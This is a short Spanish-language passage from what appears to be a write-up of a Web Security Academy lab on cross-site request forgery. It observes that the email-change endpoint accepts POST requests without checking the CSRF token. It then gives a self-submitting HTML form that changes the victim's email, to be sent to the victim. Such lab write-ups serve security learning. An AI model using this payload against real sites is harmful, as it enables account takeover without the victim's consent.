 <figure><img src="../../.gitbook/assets/image (1483).png" alt=""><figcaption></figcaption></figure>

Sí que nos cambia el correo. Por POST si quitamos el CSRF sí cambia entonces no lo valida.

```
<form class="login-form" name="change-email-form" action="https://0aaa00b8047e91f48219ba7e00b100e4.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="test@test.com">
</form>

<script>
    document.forms[0].submit();
</script>
```

Mandamos eso a la víctima.

<figure><img src="../../.gitbook/assets/image (1484).png" alt=""><figcaption></figcaption></figure>
